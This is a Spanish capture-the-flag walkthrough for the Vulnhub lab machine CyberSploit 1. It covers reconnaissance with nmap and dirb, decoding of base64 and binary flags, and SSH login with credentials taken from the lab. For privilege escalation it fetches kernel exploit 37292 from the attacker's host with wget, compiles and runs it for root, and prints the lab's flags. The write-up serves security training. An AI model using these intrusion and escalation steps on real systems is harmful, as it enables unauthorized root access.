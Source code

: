 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=F7F400&width=480&height=80&lines=CYBERSPLOIT_1"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/cybersploit-1,506/


<h1 align="center"><img src="https://user-images.githubusercontent.com/75953873/174417901-a2431e6b-3849-46e3-a0e4-ed3f8ed73e85.png"></h1>

</br>

- *Paso 1:* Identificar la IP de la máquina host con NetDiscover. 
```
netdiscover -i wlan0 -r 192.168.1/24
```
![1](https://user-images.githubusercontent.com/75953873/174458235-8b46f051-22c5-4c9e-a193-a21d2b15f82a.png)

IP host: `192.168.1.5`

- *Paso 2:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv 192.168.1.5
```
![2](https://user-images.githubusercontent.com/75953873/174458274-1cbb9500-5deb-43d7-a58c-1fa3ba579cc9.png)

Puertos abiertos: [22,80]

- *Paso 3:* Detección de servicios y sistema operativo. 
```
nmap -p 22,80 -A 192.168.1.5
```
![3](https://user-images.githubusercontent.com/75953873/174458453-68bb619f-8c2c-4657-a337-ae7bdbdb0fd3.png)

Servidor corriendo: **HTTP Apache**

![4](https://user-images.githubusercontent.com/75953873/174458587-9dc99104-e733-4167-a77e-5637aa484cde.png)

- *Paso 4:* Enumerar archivos web con Dirb.
```
dirb http://192.168.1.5 -w /usr/share/dirb/wordlists/common.txt
```
![5](https://user-images.githubusercontent.com/75953873/174458681-2f5b9ac3-cf49-4484-8fa4-ecba37570950.png)

Archivo: `robots.txt`

Mostrar contenido del archivo con Curl:
```
curl http://192.168.1.5/robots.txt
```
![6](https://user-images.githubusercontent.com/75953873/174458725-43cc2b76-f495-443a-ac4d-83aacd133f9a.png)

Mensaje ofuscado a base64: `R29vZCBXb3JrICEKRmxhZzE6IGN5YmVyc3Bsb2l0e3lvdXR1YmUuY29tL2MvY3liZXJzcGxvaXR9`

Decodificar mensaje con Bash:
```
echo 'R29vZCBXb3JrICEKRmxhZzE6IGN5YmVyc3Bsb2l0e3lvdXR1YmUuY29tL2MvY3liZXJzcGxvaXR9' | base64 --decode
```
![7](https://user-images.githubusercontent.com/75953873/174458797-e0ceea57-dcf1-4b3b-954c-b2dfaf1fd074.png)

- *Paso 5:* Conectarse al servidor SSH. 

**_CREDENCIALES SSH_**

Usuario: `itsskv`

Contraseña (**FLAG_1**): `cybersploit{youtube.com/c/cybersploit}`

```
ssh itsskv@192.168.1.5
```
![8](https://user-images.githubusercontent.com/75953873/174458910-2ecb3d1a-a76b-46b6-a51f-e14cc1e849b6.png)

Capturar la segunda flag:
```
cat /home/itsskv/flag2.txt
```
![9](https://user-images.githubusercontent.com/75953873/174458939-30736126-e294-4d22-85ae-f074f4b3f566.png)

Flag ofuscada a código binario: 

`Flag ofuscada a código binario::`
```
01100111 01101111 01101111 01100100 00100000 01110111 01101111 01110010 01101011 00100000 00100001 00001010 01100110 01101100 01100001 01100111 00110010 00111010 00100000 01100011 01111001 01100010 01100101 01110010 01110011 01110000 01101100 01101111 01101001 01110100 01111011 01101000 01110100 01110100 01110000 01110011 00111010 01110100 00101110 01101101 01100101 00101111 01100011 01111001 01100010 01100101 01110010 01110011 01110000 01101100 01101111 01101001 01110100 00110001 01111101
```

Decodificar binario.

ONLINE: https://www.online-toolz.com/langs/es/tool-es-text-binary-convertor.html

![10](https://user-images.githubusercontent.com/75953873/174459040-d0e1d032-167b-464b-a9c4-d3aa8d57753d.png)

**FLAG_2**: cybersploit{https:t.me/cybersploit1}

- *Paso 6:* Escalar privilegios: buscar exploit con Searchsploit.

![12](https://user-images.githubusercontent.com/75953873/174459381-dc60d2c4-1bd2-426e-a9b5-2bb4dc27ab37.png)

Versión del kernel: `3.13.0-32`

```
searchsploit 3.13.0
```
![11](https://user-images.githubusercontent.com/75953873/174459391-4ab3d7ee-c30f-4ee0-9e95-76c82dac1e10.png)

Descargar exploit:
```
searchsploit -m 37292
```
![13](https://user-images.githubusercontent.com/75953873/174459424-5bc7b440-01e0-4331-8597-e7dcc4da51c1.png)

Abrir un servidor local en el puerto 80 con Python3:
```
python3 -m http.server 80
```
![14](https://user-images.githubusercontent.com/75953873/174459453-de8a70d0-36c7-4238-b8eb-bac90a4a891e.png)

Descargar exploit en el directorio `/tmp`; compilar y dar permisos de escritrura, lectura y ejecucción:
```
cd /tmp
wget http://192.168.1.9/37292.c
gcc 37292.c -o kernel
chmod 777 kernel
```
![15](https://user-images.githubusercontent.com/75953873/174459564-3b68a9b2-1d9f-4bcf-8689-a2f0afe3d4f5.png)

Por último, explotar el kernel `./kernel` y capturar la key (flag) del fichero `finalflag.txt` dentro del directorio `/root`:
```
./kernel
cd /root
cat finalflag.txt
```
![16](https://user-images.githubusercontent.com/75953873/174459618-e2feb3f3-dca2-4041-ba44-0272c063c7dd.png)

**FLAG_3**: cybersploit{Z3X21CW42C4 many many congratulations !}
